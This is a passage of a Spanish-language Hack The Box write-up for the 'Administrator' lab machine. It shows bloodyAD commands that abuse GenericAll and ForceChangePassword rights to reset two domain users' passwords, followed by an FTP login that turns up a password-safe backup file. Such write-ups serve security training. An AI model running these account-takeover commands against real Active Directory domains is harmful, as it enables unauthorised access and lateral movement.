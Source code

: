 ![](assets/img/htb-writeup-administrator/administrator1_4.png)

---
## Active Directory Exploitation

Cambio la contraseña del usuario `Michael` utilizando los privilegios `GenericAll` de `Olivia`. Esto me permite escalar lateralmente a otra cuenta del dominio.

```terminal
/home/kali/Documents/htb/machines/administrator:-$ sudo bloodyAD -u "olivia" -p "ichliebedich" -d "Administrator.htb" --host "10.10.11.42" set password "Michael" "123456789"
[+] Password changed successfully!
```

Desde la cuenta de `Michael`, fuerzo también el cambio de contraseña de `Benjamin` gracias a los privilegios `ForceChangePassword`.

```terminal
/home/kali/Documents/htb/machines/administrator:-$ bloodyAD -u "Michael" -p "123456789" -d "Administrator.htb" --host "10.10.11.42" set password "Benjamin" "123456789"
[+] Password changed successfully!
```

Con las nuevas credenciales, accedo exitosamente al servicio FTP expuesto en la máquina objetivo.

```terminal
/home/kali/Documents/htb/machines/administrator:-$ ftp administrator.htb
Connected to administrator.htb.
220 Microsoft FTP Service
Name (administrator.htb:kali): Benjamin
331 Password required
Password: 123456789
230 User logged in.
```

Revisando el contenido disponible en el servicio FTP, identifico un archivo potencialmente sensible llamado `Backup.psafe3`.

![](assets/img/htb-writeup-administrator/administrator2_1.png)
